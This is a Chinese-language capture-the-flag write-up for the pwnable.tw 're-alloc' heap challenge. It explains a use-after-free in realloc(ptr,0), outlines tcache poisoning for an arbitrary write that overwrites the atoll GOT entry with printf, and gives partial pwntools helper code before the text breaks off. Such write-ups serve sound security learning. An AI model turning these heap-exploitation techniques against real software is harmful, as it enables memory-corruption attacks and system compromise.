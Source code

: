 ```yaml
---

title: pwnable.tw writeup - re-alloc
lang: zh
layout: article
show_subscribe: false
tags: [ctf,pwn]

---
```


这道题太好了。

程序比较简单，程序流程分析起来比较容易,这里就不赘述了。

有关 malloc,realloc,free,calloc 函数的流程&源码分析可以参考 [linux-heap-study](https://github.com/Zhang1933/linux-heap-study)。

## 漏洞函数

释放chunk是通过 rfree 函数调用 `realloc(ptr,0)` 的形式来进行的。 rfree 之后会把对应的 heap 指针设置为NULL。

分配chunk通过 allocate() 函数调用 `realloc(0,size)` 的形式来进行的。realloc 会调用malloc进行分配内存。

调整chunk的大小通过  reallocate 函数调用 `realloc(ptr,newsize)` 的形式来进行的。

rfree 函数，alloc 函数没有找到漏洞，但是 reallocate 函数有漏洞。因为 输入size为0时，heap对应的指针不会置空，造成了 use after free 。

## 任意地址写


### 毒化 tcache[0]  

因为最多只能120字节，所以只能对 tcache 进行操作。

思路是：

    1. 先分配一个 32 大小的 chunk 给 heap[0]。 (allocate函数)
    2. 用 realloc(heap[0],0) free heap[0] 所指向的 chunk. Use after free。 (reallocate函数)
    3. 用 realloc(heap[0],16) 返回旧 chunk,这时写 chunk 的 fd 字段为我们想要的地址。
    4. 第二次 tcache 返回时，就会返回我们想要的那个地址。

下面是实现这部分的代码，注释了内存中堆上的情况。

```python
def alloc(idx,size,data):
    io.sendafter(":","1\n")
    io.sendafter(":",str(idx))
    io.sendafter(":",str(size))
    io.sendafter(":",data)

def realloc(idx,size,data=None):
    io.sendafter(":","2\n")
    io.sendafter(":",str(idx))
    io.sendafter(":",str(size))
    if data:
        io.sendafter(":",data)

def rfree(idx):
    io.sendafter(":","3\n")
    io.sendafter(":",str(idx))

TARGET_ADDR=elf.got['atoll']
TRAGET_VAL=elf.symbols['printf']

info("got['atoll'] TARGET_ADDR: "+str(hex(TARGET_ADDR)))
info("symbols['printf'] TARGET_VAL: "+str(hex(TRAGET_VAL)))
```